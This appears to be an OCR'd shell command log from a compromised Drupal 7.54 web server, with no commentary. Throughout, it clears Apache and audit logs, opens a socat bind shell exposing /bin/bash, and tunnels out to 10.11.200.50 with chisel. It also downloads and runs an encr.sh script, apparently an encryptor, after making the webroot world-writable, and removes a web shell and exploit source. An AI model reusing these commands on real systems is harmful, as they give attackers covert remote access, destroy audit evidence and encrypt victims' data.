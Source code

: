 ```bash
cd /var/www/html/; rm *.encr chisel* socat* sploit*; pkill -f socat; pkill -f chisel; cp /home/debian/drupal-7.54/*.php /var/www/html
echo "" > /var/log/apache2/other_vhosts_access.log; echo "" > /var/log/audit/audit.log
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.11.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty&&exit
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs;exit
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 2>1 > /dev/null && exit
wget http://10.11.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
cd /var/www/html/
ls
setsid /var/www/html/socat tcp-l:8081,reuseaddr,fork exec:/bin/bash,pty,setsid,setpgid,stderr,ctty
id;echo 0 > /proc/sys/vm/dirty_writeback_centisecs
setsid /var/www/html/chisel client 10.11.200.50:8083 R:socks 
wget http://10.11.200.50/encr.sh -O /var/www/html/encr.sh;exit
chmod -R 777 /var/www/html;exit
/var/www/html/encr.sh;exit
rm -f /var/www/html/shell.php;exit
rm -f /var/www/html/encr.sh;exit
rm -f /var/www/html/sploit.c;exit
cd /var/www/html/
ls
ps aux | grep socat
pkill -f socat
ps aux | grep chisel
pkil -f chisel
pkill -f chisel
ls
ls
rm *.encr
ls
ls
cp /home/debian/drupal-7.54/*.php .
ls
ls
pkill -9 -f socat
```
